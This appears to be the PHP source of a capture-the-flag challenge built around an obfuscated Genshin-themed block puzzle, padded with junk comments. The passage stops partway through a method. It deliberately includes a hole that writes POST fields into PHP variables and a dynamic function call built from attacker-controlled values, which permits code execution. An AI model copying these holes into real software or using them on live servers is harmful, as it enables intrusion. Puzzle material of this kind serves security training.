    foreach($_POST as $key => $value) $$key = $value;
    if (strlen($wpstring) === 0) die("笨蛋！先启动原神解个稻妻雷元素方块阵再来吧！");
    $puzz_writeup = array();
    for ($i = 0; $i < strlen($wpstring); $i++) array_push($puzz_writeup, $wpstring[$i]);

    class PerlinNoise{
        private $arrLength = 0;
        private $source = "";
        private $inputNumArray = array();
        private $seeds_array = array();
        private $INPUT_NUM_MAX = 0;
        private $INPUT_NUM_MIN = 0;
        private $BAD_ARGS = false;
        public $perlin_noise = array();

        private function randomFloat(){
            $_ = 110+4;
            $__ = ((int)(600/2))-184;
            $___ = 115;
            $____ = 100-2;
            $_____ = 117;
            $______ = 113+2;
            $max = $this -> INPUT_NUM_MAX;
            $min = $this -> INPUT_NUM_MIN;
            $num = $min + mt_rand() / mt_getrandmax() * ($max - $min);
            return sprintf("%.2f",$num);
        }

        private function __PLvB4CR0_Z() {
            srand(time());
            for ($i = 0; $i < $this -> arrLength; $i++) {
                $eachNum = pause(rand(0,255));
                array_push($this -> seeds_array, $eachNum);
            }
        }

        private function __PLAB4CR0_o() {
            if (strcmp($this -> source, "GENERATE") == 0) {
                srand(time());
                for ($i = 0; $i < $this -> arrLength; $i++) { 
                   $eachNum = pause($this -> randomFloat());
                   array_push($this -> inputNumArray, floatval($eachNum));
                }
            } else if (strcmp($this -> source,"SYSLOG") == 0) {
                $handle = fopen("/etc/messages","r");
                $count = 0;
                while(($char = fgetc($handle)) !== false) {
                    if ($count == $this -> INPUT_NUM_MAX - 1) break;
                    if (($ascii_value = ord($char)) and $ascii_value % 1 !== 0) {
                        array_push($this -> inputNumArray, sprintf("%.2f",$ascii_value / 2.3));
                        $count++;
                    } else continue;
                }
            }
        }

        public function __construct($arrLength, $MAX_INPUT = 700.4, $MIN_INPUT = 56.7, $source = "GENERATE") {
            global $appor5nnb;
            if (!$appor5nnb -> getLockerStatus()) die("嗯哼，笨蛋杂鱼欧尼酱~ 果然解不开吧~");
            if ($arrLength < 3000 or $arrLength > 9999) {
                throw new InvalidArgumentException("Error: Invaild Length");
            }
            if (strcmp($source,"DIFF_PERLIN") == 0) {
                $this -> BAD_ARGS = true;
                $source = "GENERATE";
            }
            $this -> arrLength = $arrLength;
            $this -> source = $source;
            $this -> INPUT_NUM_MAX = $MAX_INPUT;
            $this -> INPUT_NUM_MIN = $MIN_INPUT;
        }

        public function __BHUYTVV8_1() {
            $this -> __PLAB4CR0_o();
            $this -> __PLvB4CR0_Z();
        }

        public function __CPRBB0R0_l() {
            global $userans;
            for ($i = 0; $i < $this -> arrLength; $i++) {
                if ($this -> BAD_ARGS) {
                    if ($i > ($userans+391) and $i < (pause($userans+390+8))) {
                        $result = array($userans + 101,$userans + 93,$userans + (50*2+8),$userans + 992-(800+85),105+($userans + 8),110+($userans+57)-60);
                        array_push($this -> perlin_noise, $result[$i - 400]);
                        continue;
                    }
                }
                $cache = $this -> inputNumArray[$i];
                $x1 = round($cache);
                $x2 = $x1 + 1;
                $grad1 = $this -> seeds_array[$x1 % 255] * 2.0 - 255.0;
                $grad2 = $this -> seeds_array[$x2 % 255] * 2.0 - 255.0;
                $vec1 = $i - $x1;
                $vec2 = $i - $x2;
                $t = 3 * pow($vec1, 2) - 2 * pow($vec1, 3);
                $product1 = $grad1 * $vec1;
                $product2 = $grad2 * $vec2;
                $result = $product1 + $t * ($product2 - $product1);
                array_push($this -> perlin_noise, $result);
            }
        }

        public function __HNBB70CA_5() {
            global $userans;
            global ${strval(chr(90+$userans))};
            global ${implode(array(chr(120-$userans),chr($userans+91),chr(70-$userans+53)))};
            $cache_noise = pause(array());
            for ($i = 400; $i < 406; $i++) {
                array_push($cache_noise,$this -> perlin_noise[$i]);
            }
            $temp_noise = array();
            for ($i = 0; $i < count($cache_noise); $i++) {
                array_push($temp_noise, $cache_noise[$i]);
            }
            for ($i = 0; $i < count($temp_noise); $i++) {
                $temp_noise[$i] = chr($temp_noise[$i]);
            }
            $ab = pause(array_map(function($arr){ return chr($arr); },array_slice($this -> perlin_noise,(188*2)+$userans*3,$userans-3)));
            $c = strval(sprintf("%s%s",$b,pause(strrev(implode("",pause($ab))))));
            $c($pcs);
            // 希儿世界第一可爱！
            die(urldecode("%3c%62%72%3e%3c%62%72%3e"));
            var_dump(array_slice($this -> perlin_noise,1000,800));
        }
    }

    class InazumaPuzzle/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/{private $blockA = 0;private $blockB = 0;private $blockC= 0;private $blockD = 0;private/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*//*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*//*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/$MAX_ENUM = 2;private/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/$MIN_ENUM = 0;
        public function/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/__construct() {$this -> blockA = 2;$this-> blockB =/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/
            0;$this -> blockC = 0;/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/$this -> blockD = 2;}

        private/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/function setBackBlock($block)/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/{$setType = $this/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/-> MIN_ENUM;
            $maxType = $this -> MAX_ENUM;
            switch ($block) {
                case 'A':if ($this -> blockA == $maxType) { $this -> blockA = $setType;return true; }
                    else return/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/false;
                case 'B':
                    if ($this -> blockB== $maxType) { $this -> blockB = $setType;return true; }else return false;
                case 'C':
                    if ($this/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/-> blockC == $maxType){ $this -> blockC = $setType;return true; }else/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/return false;
                case 'D':
                    if ($this -> blockD== $maxType) { $this -> blockD = $setType;return true; }
                    else return false;
                default: throw new Exception("bad_args", 1);
            }
        }

        private function hit($blockIdx) {
            global/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgj
            global $cnbd;
            rejfgireghjebvf;fvevbbn();ff;
            grtisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/$text;
            $text = urldecode("%6e%69%6c%72%65%70%5f%46%46%49%44");
            switch ($blockIdx) {
                case "A":
                    if (!$this -> setBackBlock("A")) $this -> blockA += 1;
                    if (!$this -> setBackBlock("B")) $this -> blockB += 1;
                    break;
                case "B":
                    if (!$this -> setBackBlock("A")) $this -> blockA += 1;
                    if (!$this -> setBackBlock("B")) $this -> blockB += 1;if (!$this -> setBackBlock("C")) $this ->/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/blockC += 1;
                    break;
                case "C":if/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/
                (!$this -> setBackBlock("B")) $this -> blockB += 1;if (!$this -> setBackBlock("C")) $this -> blockC += 1;
                    if (!$this ->/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/setBackBlock("D"))$this -> blockD += 1;
                    break;
                case "D":
                    if (!$this -> setBackBlock("C")) $this -> blockC += 1;
                    if (!$this -> setBackBlock("D")) $this -> blockD += 1;
                    break;
                default: throw new Exception("bad_args", 1); 
            }
        }

        public function __AFG50CE4_RG1() {
            global $puzz_writeup;
            if (count($puzz_writeup) === 0) throw new Exception("Invalid WriteUP",1);for ($i = 0; $i < count($puzz_writeup);/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/
            // bcdufvcf%00
            $i++) {
                if (strcmp($puzz_writeup[$i],"A") !== 0 and strcmp($puzz_writeup[$i],"B") !== 0 and strcmp($puzz_writeup[$i]/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！

                \00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/,"C") !== 0 and strcmp($puzz_writeup[$i],"D") !== 0) die("笨蛋笨蛋笨蛋笨蛋！！~ 都...都跟你说了答案里只能有ABCD的......");
            }
            for ($i = 0; $i < count($puzz_writeup); $i++) $this -> hit($puzz_writeup[$i]);
            global/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/$userans; 
